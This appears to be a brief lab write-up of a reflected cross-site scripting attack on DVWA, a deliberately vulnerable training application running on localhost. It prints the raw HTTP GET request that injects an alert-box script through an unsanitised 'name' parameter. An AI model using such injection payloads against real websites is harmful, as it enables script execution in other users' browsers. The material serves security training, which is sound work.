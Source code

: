#### Scenario
- During a Reflected XSS attack on DVWA, the malicious script is inserted into the HTTP Get request. Due to the input field not being sanitized the JavaScript code is then run and in this instance, an alert pops up displaying the injected message. 

```
GET /dvwa/vulnerabilities/xss_r/?name=<script>alert(Hello!!!)</script> HTTP/1.1

Host: 127.0.0.1

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://127.0.0.1/dvwa/vulnerabilities/xss_r/

Cookie: security=low; PHPSESSID=l3q4o5hsovmp2fi1suhua7lbgf

Connection: close

Upgrade-Insecure-Requests: 1

```


